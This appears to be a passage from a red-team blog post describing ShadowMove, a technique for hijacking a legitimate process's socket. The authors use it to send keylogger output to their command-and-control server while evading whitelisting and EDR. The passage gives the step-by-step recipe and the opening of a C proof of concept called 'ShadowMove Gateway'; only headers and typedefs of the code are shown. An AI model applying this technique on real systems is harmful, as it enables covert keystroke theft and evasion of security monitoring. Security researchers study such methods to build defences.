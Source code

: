 We are glad you asked it! Recently we remembered a situation we had to face in an operation. We had to deploy our keylogger in a computer but it was blocking any connection made by non-whitelisted binaries. To circumvent this problem we just injected our keylogger in a process allowed to connect to the outside. But with ShadowMove we can avoid any noise potentially generated by our injections (yes, we can use all the usual suspects to bypass EDRs, but this method is cleaner, by far). 

# Hiding a connection to the C&C inside a legitimate process

Imagine we have a keylogger and we want to use ShadowMove to send the keys intercepted to our C&C. Every time we have to send a batch of keys we need to run a legitimate program that tries to connect to our C&C, for example a mssql client, and when the connection is made we have to hijack it from our keylogger. Of course in an enterprise environment you would need to set the connection through the corporative proxy instead of directly to the C&C, but let's forget about that for a moment.

The recipe to ShadowMove is (taken directly from the paper):

1. Open the owner process with PROCESS_DUP_HANDLE
2. Foreach handle with type 0x24 (file)
3. Duplicate the handle
4. Retrieve its names
5. Skip if the name is not \device\afd
6. Obtain remote IP and remote port number
7. Skip if remote IP and port do not match the input parameters
8. Call WSADuplicateSocketW to get a special WSAPROTOCOL_INFO structure
9. Create a duplicate socket
10. Use the socket

This, can be translated into the next PoC that we called "ShadowMove Gateway". Basically, we are providing the process PID (remember: something legitimate, able to establish a connection with our C&C) and the IP of our C&C (remember: in a real scenario we have to deal with proxies). 

```c
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1



typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
	HANDLE TargetProcessHandle,
	PHANDLE TargetHandle,
	ACCESS_MASK DesiredAccess,
	ULONG Attributes,
	ULONG Options
	);
```